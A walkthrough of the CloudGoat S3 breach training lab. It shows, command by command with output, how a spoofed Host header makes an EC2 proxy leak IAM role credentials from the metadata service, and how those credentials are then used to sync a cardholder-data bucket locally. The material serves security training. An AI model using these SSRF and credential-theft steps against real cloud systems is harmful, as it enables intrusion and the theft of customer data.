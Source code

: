 


## Walkthrough of the Rhino Labs S3 data breach scenario

<HR>
This walkthrouh includes steps for setup, commands in the cheatsheet which needed slight modification to work.  
After going through the scenario as written, I wanted to see whether we could prevent access with iptables firewall, 
and how the scenario would be impacted by implementation of the Instance Metadata Service Version 2 (IMDSV2) announced at re:Invent in December, 2019. 

<HR>
  
## Reference: 

Cloud Goat S3 breach scenario (release notes)
https://rhinosecuritylabs.com/aws/capital-one-cloud_breach_s3-cloudgoat/

Scenario Details: 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

Scenario Cheat Sheet:
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/cheat_sheet.md

NOTE: Additional setup needed: ‘cloudgoat’ IAM user and profile, described in the CloudGoat 2 release notes 
https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/

![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image0.jpg)



<HR>
  
## Steps in scenario cheat-sheet:

1) curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254' 
``` 
% curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
cg-banking-WAF-Role-cgidatyedvvzzy
% 
```

2) curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

```
%~/Cloud_Goat_Test/Walkthrough# curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cgidatyedvvzzy -H 'Host:169.254.169.254'
{
  "Code" : "Success",
  "LastUpdated" : "2020-01-12T19:06:22Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "XXXXXXXXXXXXXXXXXXXXXX",
  "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
  "Token" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==",
  "Expiration" : "2020-01-13T01:42:16Z"
```

3) aws configure --profile erratic

```
% aws configure --profile erratic
AWS Access Key ID [****************4R4E]: XXXXXXXXXXXXXXXXXX
AWS Secret Access Key [****************plSQ]: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX          
Default region name [us-east-1]: us-east-1
Default output format [None]: 
%
```

4) aws_session_token = <session-token>

Note: the steps required are slightly different than described in the cheat-sheet for this scenario.

Exporting as an environment variable could work, the variable name would need to be capitalized. “export AWS_SESSION_TOKEN=QoJb3Jp...”  The order for processing IAM credentials is: 1) in your code, 2) environment variables, 3) user profile ~/.aws/credentials  4) Role  

The cheat-sheet for the Cloud Goat server side request forgery scenario “ec2_ssrf” shows how to configure the TOKEN in the user profile:  https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/cheat_sheet_solus.md


![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image1.jpg)

<HR>
  
After editing for our current test: 

```
% tail ~/.aws/credentials
...
[erratic]
aws_session_token=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXx/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==
aws_access_key_id = XXXXXXXXXXXXXXXXXXXXXXXXXXXX
aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXxxx
```

<HR>

5) Use new credentials to list S3 buckets?  Success!

```
% aws s3 ls --profile erratic
2020-01-12 14:07:01 cg-cardholder-data-bucket-cgidatyedvvzzy
%
```

<HR>
  
6)  Copy bucket contents

```
% aws s3 sync s3://cg-cardholder-data-bucket-cgidatyedvvzzy ./cardholder-data --profile erratic
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_primary.csv to cardholder-data/cardholder_data_primary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholders_corporate.csv to cardholder-data/cardholders_corporate.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_secondary.csv to cardholder-data/cardholder_data_secondary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/goat.png to cardholder-data/goat.png
```

<HR>
  
7) Reveiw local copy 

```
% ls ./cardholder-data/
cardholder_data_primary.csv  cardholder_data_secondary.csv  cardholders_corporate.csv  goat.png

% ls -ltr
total 456
-rw-r--r-- 1 root root 249500 Jan 12 14:07 goat.png
-rw-r--r-- 1 root root  92165 Jan 12 14:07 cardholders_corporate.csv
-rw-r--r-- 1 root root  59384 Jan 12 14:07 cardholder_data_secondary.csv
-rw-r--r-- 1 root root  58872 Jan 12 14:07 cardholder_data_primary.csv

% firefox ./goat.png
```

![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image2.jpg)







    


